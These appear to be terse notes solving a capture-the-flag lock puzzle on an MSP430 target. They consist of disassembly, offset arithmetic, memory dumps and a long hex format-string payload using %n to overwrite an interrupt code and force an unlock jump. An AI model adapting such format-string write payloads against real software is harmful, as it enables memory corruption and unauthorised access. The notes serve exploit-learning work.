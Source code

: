 # I can overwrite the 7e to 7F and jmp to 44c6 in order to unlock
44c6:  3012 7e00      push	#0x7e
44ca:  b012 3645      call	#0x4536 <INT>
Offset: 0x44c6 - 0x447a = 0x4c

253c           jmp	$+0x4c

'83ff ' + 'c844 ' + '2573 ' + '256e'
83ff c844 2573 256e

Before: 44c0: 0e54 0e12 0f12 3012 7e00 b012 3645 5f44   .T....0.~...6E_D
After:  44c0: 0e54 0e12 0f12 3012 7f00 b012 3645 5f44   .T....0....6E_D

Now add the jump:

STR        WRITETO   %s        %n
'83ff ' + 'c844 ' + '2573 ' + '256e ' \
+ '80ff ' * 119 + 'e4ff ' + '7a44 '+ '2578 ' * 2 + '2573 ' * 120 + '256e'
   STR             SHRT_S     WRITETO  %x           %s              %n

83ff c844 2573 256e 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff 80ff e4ff 7a44 2578 2578 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 2573 256e
